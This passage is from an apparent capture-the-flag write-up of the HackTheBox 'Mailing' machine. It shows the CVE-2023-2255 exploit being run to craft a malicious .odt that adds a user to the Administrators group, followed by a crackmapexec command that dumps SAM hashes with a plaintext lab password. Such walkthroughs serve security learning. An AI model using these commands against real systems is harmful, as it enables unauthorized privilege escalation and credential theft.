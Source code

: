 We can use [this payload](https://github.com/elweth-sec/CVE-2023-2255) to create malicious .odt file  that will add user maya to Administrator group:


`python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-22.png)

Let's upload created exploit.odt to **Important Documents** folder where there is scheduled tasks for user interaction:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-23.png)


Check user group using `net user maya`, now maya is in Administrators group:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-24.png)

### Dump SAM Hash

Since Maya is in the administrators group now, let's dump SAM using crackmapexec:

`crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam`
